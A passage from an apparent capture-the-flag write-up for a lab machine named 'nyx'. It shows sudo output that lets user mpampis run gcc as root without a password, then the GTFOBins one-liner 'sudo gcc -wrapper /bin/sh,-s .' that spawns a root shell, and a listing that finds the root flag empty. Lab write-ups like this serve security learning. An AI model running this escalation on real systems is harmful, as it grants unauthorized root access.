 The user is allowed to run `gcc` without password:

~~~
mpampis@nyx:~$ sudo -l
Matching Defaults entries for mpampis on nyx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mpampis may run the following commands on nyx:
    (root) NOPASSWD: /usr/bin/gcc
~~~

## Privilege escalation and root flag

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/gcc/#sudo), we confirm that there is a privesc with `gcc`. Let's elevate to root and get the root flag:

~~~
mpampis@nyx:~$ sudo gcc -wrapper /bin/sh,-s .
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
# cd /root
# ls -la
total 24
drwx------  3 root root 4096 Aug 14 18:58 .
drwxr-xr-x 18 root root 4096 Aug 14 16:58 ..
-rw-------  1 root root    0 Aug 14 18:58 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Aug 14 17:24 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root    0 Aug 14 17:26 root.txt
-rw-r--r--  1 root root  168 Aug 14 18:17 .wget-hsts
~~~

Unfortunately, the root flag is empty (file size is 0) and there is no other `root.txt` file on the target. Not sure if it's a bug?

